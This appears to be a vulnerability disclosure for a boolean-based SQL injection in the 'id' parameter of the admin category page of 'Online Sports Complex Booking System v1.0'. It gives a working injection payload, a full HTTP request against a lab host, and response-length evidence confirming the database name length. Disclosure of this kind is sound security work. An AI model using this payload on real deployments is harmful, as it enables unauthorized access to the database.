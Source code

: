 # Online Sports Complex Booking System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15236/online-sports-complex-booking-system-phpmysql-free-source-code.html

Vulnerability File: /scbs/admin/categories/manage_category.php?id=

Vulnerability location: /scbs/admin/categories/manage_category.php?id=, id

Current database name: scbs_db,length is 7

[+] Payload: /scbs/admin/categories/manage_category.php?id=2%27%20and%20length(database())%20=7%20--+

```sql
GET /scbs/admin/categories/manage_category.php?id=2%27%20and%20length(database())%20=7%20--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=gp584rjk4ugbjakmto03cu7pco
Connection: close

// Leak place ---> id
```

When length (database ()) = 6, Content-Length: 2171
![image](https://user-images.githubusercontent.com/54017627/165215968-d74356b8-17cd-49db-b5a7-da9a4dc1ce2a.png)

![image](https://user-images.githubusercontent.com/54017627/165215488-15ee57dd-9c21-4fb8-b53f-120ca451348a.png)

When length (database ()) = 7, Content-Length: 2204
![image](https://user-images.githubusercontent.com/54017627/165215795-833afc4e-bc68-4e18-af5b-aa8be97b5e6d.png)

![image](https://user-images.githubusercontent.com/54017627/165215459-bd3a7cbe-eb4a-4fd4-80ce-1bb53ad55f66.png)


